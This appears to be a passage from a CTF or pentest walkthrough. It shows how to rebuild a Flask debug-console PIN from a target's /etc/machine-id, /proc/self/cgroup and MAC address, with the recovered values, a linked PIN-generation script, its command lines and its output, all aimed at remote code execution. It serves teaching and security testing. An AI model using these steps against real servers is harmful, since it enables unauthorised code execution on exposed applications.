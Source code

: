 # get\_flask\_pin.py

[https://gist.githubusercontent.com/InfoSecJack/70033ecb7dde4195661a1f6ed7990d42/raw/028384ef695e376d412f9276ad27b2c916d4f748/get\_flask\_pin.py](https://gist.githubusercontent.com/InfoSecJack/70033ecb7dde4195661a1f6ed7990d42/raw/028384ef695e376d412f9276ad27b2c916d4f748/get\_flask\_pin.py)

We should be able to do this with this script, but first we need the contents of three files:&#x20;

* /etc/machine-id
* /proc/self/cgroup
* /sys/class/net/INTERFACE\_NAME/address.&#x20;

We discover the machine id in&#x20;

/etc/machine-id 00566233196142e9961b4ea12a2bdb29

/proc/self/cgroup

12:perf\_event:/ 11:freezer:/ 10:hugetlb:/ 9:rdma:/ 8:pids:/system.slice/blog.service 7:memory:/system.slice/blog.service 6:cpuset:/ 5:net\_cls,net\_prio:/ 4:devices:/system.slice/blog.service 3:blkio:/system.slice/blog.service 2:cpu,cpuacct:/system.slice/blog.service 1:name=systemd:/system.slice/blog.service 0::/system.slice/blog.service

The value to note here is blog.service.&#x20;

Finally, we need the MAC address of the network interface. Unfortunately, we do not know the name of the interface the target is using, but we can attempt a few more frequently-used names. Eventually, we detect ens160, resolving the file of interest to be /sys/class/net/ens160/address  Navigating to that address, we find the MAC address to be 00:50:56:8a:fc:e8 or 345049332968 in decimal.

Remote Code Execution Now that we have all the information needed to recreate the Flask debug PIN, we can attempt to gain remote code execution. We can recreate the PIN with a script:&#x20;

```
kali@kali:~$ python3 get_flask_pin.py --machineid '00566233196142e9961b4ea12a2bdb29blog.service' --uuid 345049332968
[!] App.py base path not provided, trying for most versions of python 
2.7: 808-636-148 
3.0: 326-388-942 
3.1: 497-064-428 
3.2: 134-262-617 
3.3: 190-791-220 
3.4: 238-677-304 
3.5: 210-728-119 
3.6: 173-509-958 
3.7: 159-262-052 
3.8: 751-326-702
```

Sometimes it can not work. We can try above command without /proc/self/cgroup value.

```
kali@kali:~$ python3 get_flask_pin.py --machineid '00566233196142e9961b4ea12a2bdb29' --uuid 345049332968
```
